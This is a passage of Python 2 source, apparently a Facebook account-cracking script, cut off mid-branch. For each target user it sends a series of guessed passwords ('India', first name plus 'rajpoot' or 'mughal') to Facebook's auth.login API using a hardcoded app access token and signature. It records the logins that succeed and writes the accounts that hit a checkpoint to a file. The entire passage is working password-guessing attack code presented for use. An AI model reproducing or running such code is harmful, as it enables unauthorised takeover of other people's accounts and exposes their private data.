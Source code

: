 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'India'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = a['first_name'] + 'rajpoot'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + 'mughal'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]: